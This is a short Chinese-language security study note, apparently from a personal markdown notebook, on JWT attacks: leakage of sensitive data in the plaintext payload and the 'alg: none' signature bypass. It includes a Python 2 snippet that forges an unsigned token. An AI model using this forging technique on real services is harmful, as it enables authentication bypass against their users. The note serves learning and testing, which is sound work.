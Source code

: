 ```yaml
---
tags: [JWT]
title: jwt-6
created: '2019-07-30T08:27:50.931Z'
modified: '2019-09-03T10:09:57.304Z'
---
```


0x03 JWT攻击技术

1.敏感信息泄露

显然，由于有效载荷是以明文形式传输的，因此，如果有效载荷中存在敏感信息的话，就会发生信息泄露。

2.将签名算法改为none

我们知道，签名算法可以确保JWT在传输过程中不会被恶意用户所篡改。

但头部中的alg字段却可以改为none。

另外，一些JWT库也支持none算法，即不使用签名算法。当alg字段为空时，后端将不执行签名验证。

将alg字段改为none后，系统就会从JWT中删除相应的签名数据（这时，JWT就会只含有头部 + ‘.’ + 有效载荷 + ‘.’），然后将其提交给服务器。

这种攻击的具体例子可以从http://demo.sjoerdlangkemper.nl/jwtdemo/hs256.php中找到。

此外，相关的代码也可以从Github上找到，具体地址为https://github.com/Sjord/jwtdemo/。

相关代码如下所示：

import jwt
import base64
# header
# eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
# {"typ":"JWT","alg":"HS256"}
#payload eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTUwNDAwNjQzNSwiZXhwIjoxNTA0MDA2NTU1LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0
# {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1504006435,"exp":1504006555,"data":{"hello":"world"}}
def b64urlencode(data):
    return base64.b64encode(data).replace('+', '-').replace('/', '_').replace('=', '')

print b64urlencode("{\"typ\":\"JWT\",\"alg\":\"none\"}") + \
    '.' + b64urlencode("{\"data\":\"test\"}") + '.'
结果如下所示：



图6
